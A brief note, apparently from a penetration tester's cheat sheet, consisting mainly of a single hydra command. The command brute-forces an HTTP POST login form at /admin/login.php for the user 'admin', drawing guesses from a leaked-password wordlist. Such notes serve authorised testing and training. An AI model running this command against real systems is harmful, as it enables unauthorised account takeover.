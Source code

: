 # hydra brute force HTTP post form
```bash
hydra $IP http-post-form "/admin/login.php:username=^USER^&password=^PASS^&loginsubmit=Submit:User name or password incorrect" \
-l admin -P /usr/share/seclists/Passwords/Leaked-Databases/rockyou-50.txt -t 10 -w 30 -o hydra-http-post-attack.txt
```

# Related


Tags:

    #assorted
